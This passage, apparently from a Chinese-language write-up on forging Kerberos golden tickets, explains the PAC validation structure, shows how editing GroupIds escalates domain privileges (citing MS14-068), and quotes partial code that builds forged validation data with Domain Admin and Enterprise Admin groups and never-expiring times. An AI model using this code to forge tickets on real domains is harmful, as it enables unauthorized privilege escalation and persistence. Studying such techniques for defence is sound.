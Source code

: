 ```c++
typedef struct _KERB_VALIDATION_INFO {
    FILETIME LogonTime;
    FILETIME LogoffTime;
    FILETIME KickOffTime;
    FILETIME PasswordLastSet;
    FILETIME PasswordCanChange;
    FILETIME PasswordMustChange;
    RPC_UNICODE_STRING EffectiveName;
    RPC_UNICODE_STRING FullName;
    RPC_UNICODE_STRING LogonScript;
    RPC_UNICODE_STRING ProfilePath;
    RPC_UNICODE_STRING HomeDirectory;
    RPC_UNICODE_STRING HomeDirectoryDrive;
    USHORT LogonCount;
    USHORT BadPasswordCount;
    ULONG UserId;
    ULONG PrimaryGroupId;
    ULONG GroupCount;
    [size_is(GroupCount)] PGROUP_MEMBERSHIP GroupIds;
    ULONG UserFlags;
    USER_SESSION_KEY UserSessionKey;
    RPC_UNICODE_STRING LogonServer;
    RPC_UNICODE_STRING LogonDomainName;
    PISID LogonDomainId;
    ULONG Reserved1[2];
    ULONG UserAccountControl;
    ULONG SubAuthStatus;
    FILETIME LastSuccessfulILogon;
    FILETIME LastFailedILogon;
    ULONG FailedILogonCount;
    ULONG Reserved3;
    ULONG SidCount;
    [size_is(SidCount)] PKERB_SID_AND_ATTRIBUTES ExtraSids;
    PISID ResourceGroupDomainSid;
    ULONG ResourceGroupCount;
	[size_is(ResourceGroupCount)] PGROUP_MEMBERSHIP ResourceGroupIds;
} KERB_VALIDATION_INFO, *PKERB_VALIDATION_INFO;
```

其中的 GroupIds 这个成员是指向 `GROUP_MEMBERSHIP` 结构列表的指针，该列表包含域中帐户所属的组。如果我们可以修改 GroupIds 成员，将其修改为特权组，那么就可以达到域内账户提权的效果，比如众所周知的 MS14-068 漏洞。

不过，为了防止 PAC 内容被篡改，微软后来在 PAC 结构中加入了服务器检验和（Server Checksum） 与 KDC 校验和（KDC Checksum），他们对应的 PAC_INFO_BUFFER 结构的 ulType 字段分别为 0x00000007 和 0x00000006。

前文中，`KerberosGenerateGoldenData()` 中调用的 `GenerateValidationInfo()` 函数的主要作用就是生成一个 `KERB_VALIDATION_INFO` 结构并保存在 `pValidationInfo` 变量中，以便后续插入到 PAC 结构中，如下所示。

```c++
PKERB_VALIDATION_INFO GenerateValidationInfo(PFILETIME pAuthtime, LPCWSTR lpUserName, LPCWSTR lpDomainName, LPCWSTR lpLogonDomainName, PISID pSid)
{
	PKERB_VALIDATION_INFO pValidationInfo = NULL;
	GROUP_MEMBERSHIP defaultGroups[] = { {513, DEFAULT_GROUP_ATTRIBUTES}, {512, DEFAULT_GROUP_ATTRIBUTES}, {520, DEFAULT_GROUP_ATTRIBUTES}, {518, DEFAULT_GROUP_ATTRIBUTES}, {519, DEFAULT_GROUP_ATTRIBUTES}, };
	PGROUP_MEMBERSHIP pDefaultGroups = (PGROUP_MEMBERSHIP)LocalAlloc(LPTR, sizeof(defaultGroups));
	RtlCopyMemory(pDefaultGroups, defaultGroups, sizeof(defaultGroups));
#define NEVERTIME(filetime)	(*(PLONGLONG) filetime = MAXLONGLONG)
	if (pValidationInfo = (PKERB_VALIDATION_INFO)LocalAlloc(LPTR, sizeof(KERB_VALIDATION_INFO)))
	{
		pValidationInfo->LogonTime = *pAuthtime;
		// The values of the five timestamp member variables are all set to a 
        // constant MAXLONGLONG representing the maximum possible time in the future.
		NEVERTIME(&pValidationInfo->LogoffTime);
```